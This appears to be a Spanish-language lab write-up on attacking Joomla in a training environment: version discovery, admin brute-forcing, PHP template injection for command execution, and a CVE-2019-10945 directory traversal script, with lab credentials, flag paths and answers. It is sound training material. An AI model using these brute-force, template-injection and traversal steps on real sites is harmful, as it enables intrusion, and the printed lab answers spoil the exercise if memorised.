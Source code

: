 # Laboratorio: Joomla 🏫

1. Agregamos el dominio y la dirección IP al archivo **`/etc/hosts`**
--

2. Para saber la versión de Joomla visitamos el archivo `/README.txt`
* **URL:** `http://app.inlanefreight.local/README.txt`

```java
1- What is this?
	* This is a Joomla! installation/upgrade package to version 3.x
	* Joomla! Official site: https://www.joomla.org
	* Joomla! 3.10 version history - https://docs.joomla.org/Special:MyLanguage/Joomla_3.10_version_history
	* Detailed changes in the Changelog: https://github.com/joomla/joomla-cms/commits/3.10-dev
<SNIP>
```

* **Respuesta:** `3.10.0`
---
3. Realizaremos **fuerza bruta** con [joomla-brute](https://github.com/ajnik/joomla-bruteforce)
* `python3 joomla-brute.py -u http://app.inlanefreight.local -w http_default_pass.txt -usr admi`

* **Respuesta:** `admin:turnkey`
---

# Laboratorio: Attacking Joomla 📁

1. Ya teniendo las **credenciales** nos loguearemos e insertaremos código **php** para ejecutar comandos.

<p align="center">
    <img src="./assets/Joomla/01-RCE.PNG" width=520>
</p>

---

2. Con el **RCE** anterior, podemos leer directamente la `flag` en el directorio **`dev.inlanefreight.local`**

* **URL:** `http://app.inlanefreight.local/templates/protostar/error.php?qweiopsaklndn=cat%20/var/www/dev.inlanefreight.local/flag_[ID].txt`

---

## Segunda Forma ✌
1. Al usar `joomla-brute` para el usuario `admin` sabemos que las credenciales `admin:admin`, usaremos el script [dev_joomla](https://github.com/dpgg101/CVE-2019-10945/blob/main/CVE-2019-10945.py)

* `python3 path_traversal.py --url http://dev.inlanefreight.local/administrator/ --username admin --password admin`

**Output**
```
 _    _          ____   ____   ____  ____  
| |  | |   /\   |  _ \ / __ \ / __ \|  _ \ 
| |__| |  /  \  | |_) | |  | | |  | | |_) |
|  __  | / /\ \ |  _ <| |  | | |  | |  _ < 
| |  | |/ ____ \| |_) | |__| | |__| | |_) |
|_|  |_/_/    \_\____/ \____/ \____/|____/ 
                                                                        


administrator
bin
cache
cli
components
images
includes
language
layouts
libraries
media
modules
plugins
templates
tmp
LICENSE.txt
README.txt
configuration.php
flag_6470e394cbf6dab6a91682cc8585059b.txt
htaccess.txt
index.php
robots.txt
web.config.txt
```

---

2. Ahora inyectamos código `php` en un template

<p align="center">
    <img src="./assets/Joomla/02-Steps.PNG">
</p>

* Por último 🟩`Guardamos`🟩
---

3. Ahora ya podemos ejecutar comandos y podemos leer la `flag`
* **URL:** `http://dev.inlanefreight.local/templates/protostar/error.php?0=cat%20../../flag_6470e394cbf6dab6a91682cc8585059b.txt`

**Output**
`j00mla_c0re_d1rtrav3rsal!`